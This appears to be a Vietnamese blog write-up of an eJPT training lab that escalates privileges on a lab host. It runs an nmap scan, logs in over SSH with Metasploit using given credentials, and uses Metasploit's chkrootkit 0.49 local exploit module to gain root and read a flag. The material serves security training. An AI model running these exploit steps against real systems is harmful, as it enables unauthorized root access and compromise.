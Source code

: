 ```yaml
---
title: Privilege Escalation - Rootkit Scanner
published: 2025-06-08
tags: [eJPT, Linux, Privilege Escalation]
category: 'Learning'
description: Privilege Escalation using Rootkit Scanner
draft: false 
---
```



# EJPT LAB: Privilege Escalation - Rootkit Scanner 
> Lỗ hổng trong `chkrootkit 0.49` là một lỗ hổng leo thang đặc quyền cục bộ (local privilege escalation) nghiêm trọng, xuất phát từ cách công cụ này thực thi một số lệnh hệ thống với quyền root mà không kiểm tra kỹ đường dẫn (PATH). Điều này cho phép kẻ tấn công – nếu đã có quyền truy cập như một người dùng thông thường – chèn mã độc vào thư mục như `/tmp`, sau đó chờ `chkrootkit` được chạy bởi cron hoặc dịch vụ khác. Khi đó, mã độc sẽ được thực thi với quyền root, từ đó cho phép kiểm soát toàn bộ hệ thống.
Lỗ hổng này đã được ghi nhận trong các hệ thống sử dụng `chkrootkit` phiên bản 0.49 trở về trước và là ví dụ điển hình cho việc chạy công cụ bảo mật với quyền cao có thể dẫn đến hậu quả nghiêm trọng nếu không được cấu hình an toàn.


## I. Truy cập vào máy Kali
Truy cập vào đường dẫn phòng lab đã được cung cấp để khởi động máy Kali.
![image](https://hackmd.io/_uploads/SyKVMkfmeg.png)

## II. Kiểm tra kết nối đến máy mục tiêu
Sử dụng lệnh `ping` để kiểm tra xem máy mục tiêu có đang hoạt động hay không:
```bash
ping -c 4 demo.ine.local
```
Lệnh này gửi 4 gói tin ICMP đến địa chỉ `demo.ine.local`. Nếu có phản hồi (reply), nghĩa là máy mục tiêu đang bật và có thể truy cập được – tiền đề để thực hiện các cuộc tấn công.
![image](https://hackmd.io/_uploads/B1MwGkfmxl.png)

## III. Quét cổng với Nmap
Ta sẽ quét các cổng đang mở để biết dịch vụ nào đang chạy trên máy mục tiêu:

```bash
nmap -sS -sV demo.ine.local
```
![image](https://hackmd.io/_uploads/rJE_zkzQll.png)


- `-sS`: Quét theo kiểu SYN (stealth scan), giúp quét nhanh và tránh bị hệ thống phát hiện do không hoàn tất bắt tay TCP.
- `-sV`: Phát hiện phiên bản dịch vụ đang chạy trên các cổng.

Thông tin này cực kỳ quan trọng trong giai đoạn **trinh sát (reconnaissance)** để xác định các điểm có thể khai thác.


## IV. Khai thác SSH với Metasploit

Sau khi biết được dịch vụ SSH đang mở, và có sẵn thông tin đăng nhập (`jackie:password`), ta sẽ sử dụng Metasploit – framework khai thác mạnh mẽ – để đăng nhập từ xa.

```bash
msfconsole
```
![image](https://hackmd.io/_uploads/HJT9fJzQeg.png)

Sau đó dùng mô-đun đăng nhập SSH:

```bash
use auxiliary/scanner/ssh/ssh_login
set RHOSTS demo.ine.local
set USERNAME jackie
set PASSWORD password
exploit
```

Nếu đăng nhập thành công, bạn đã **chiếm được quyền điều khiển máy mục tiêu với vai trò người dùng `jackie`**.
![image](https://hackmd.io/_uploads/H1CAM1fQxe.png)


## V. Tương tác với phiên shell

Khi phiên SSH đã được mở, bạn có thể tương tác trực tiếp với hệ thống:

```bash
sessions -i 1
```
![image](https://hackmd.io/_uploads/rJFyQyfQll.png)

Chạy:

```bash
ps aux
```
![image](https://hackmd.io/_uploads/rJOlQyMmex.png)

Lệnh này liệt kê toàn bộ các tiến trình đang chạy. Nếu thấy các dịch vụ hệ thống như `cron`, hoặc script lạ chạy định kỳ, có thể đó là điểm bắt đầu để thực hiện **leo thang đặc quyền (privilege escalation)**.

## VI. Phân tích script đáng ngờ

Ta thấy một bash script đang chạy có tên `/bin/check-down`. Kiểm tra nội dung nó:

```bash
cat /bin/check-down
```
![image](https://hackmd.io/_uploads/SkKWXkfXgg.png)

Script này đang chạy công cụ `chkrootkit` mỗi 60 giây. Đây là một công cụ quét rootkit phổ biến, nhưng **phiên bản cũ (0.49)** của nó có lỗ hổng bảo mật nghiêm trọng.

Xác định phiên bản và vị trí thực thi:

```bash
command -v chkrootkit
/bin/chkrootkit -V
```
![image](https://hackmd.io/_uploads/HJpGmJfmxl.png)

## VII. Khai thác leo thang đặc quyền với chkrootkit

Ta tra cứu với `searchsploit` để tìm khai thác cho chkrootkit:

```bash
searchsploit chkrootkit 0.49
```
![image](https://hackmd.io/_uploads/BkvmQJfQll.png)

Kết quả cho thấy có tồn tại **lỗ hổng leo thang đặc quyền (local privilege escalation)** trong phiên bản này. Lý do là `chkrootkit` chạy với quyền root và thực thi các file từ đường dẫn không an toàn (như `/tmp`), dẫn đến có thể chèn mã độc để chiếm quyền root.


## Tấn công và đọc flag

**Quan trọng:** Không đóng phiên shell đang tương tác. Dùng `CTRL+Z` để gửi về nền.

Sử dụng mô-đun Metasploit:

```bash
use exploit/unix/local/chkrootkit
set CHKROOTKIT /bin/chkrootkit
set session 1
set LHOST 192.60.22.2
exploit
```

Khi khai thác thành công, bạn đã trở thành người dùng `root` trên máy mục tiêu – mức cao nhất. Bây giờ bạn có thể truy cập mọi file, ví dụ như đọc cờ (flag):

```bash
cat /root/flag
```
![image](https://hackmd.io/_uploads/BJAHQkz7le.png)

